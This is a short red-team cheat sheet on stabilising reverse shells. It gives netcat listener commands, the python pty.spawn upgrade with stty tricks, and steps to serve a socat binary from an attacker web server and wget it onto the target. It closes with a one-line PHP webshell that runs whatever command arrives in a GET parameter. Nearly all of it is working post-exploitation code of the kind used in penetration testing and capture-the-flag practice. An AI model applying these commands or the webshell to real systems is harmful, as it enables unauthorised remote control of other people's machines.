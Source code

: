 ```yaml
---
category:
  - redteam
---
```


# Reverse Shell Stabilization
## TTY Size
In second terminal window, get rows & columns with `stty -a`, then set them in the remote shell with `stty {rows|cols} <number>`

## Netcat
Rlwrap: `rlwrap nc -lvnp <port>`
If Python is available:
```bash
sudo nc -lvnp 1234  # listen for connections on port 1234
python -c 'import pty;pty.spawn("/bin/bash")'   # start bash
export TERM=xterm
[Ctrl+Z]    # background the session
stty raw -echo; fg     # Stabilze and foreground the shell
```
## Socat
If Python is available:
```
# Start Python webserver on local machine
sudo python3 -m http.server 80
# Get a netcat shell
sudo nc -lvnp <port> 
# Download socat compiled binary to target machine
wget \{local IP}/socat -O /tmp/socat
```

# Basic Webshell
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
See `/usr/share/webshells` on Kali
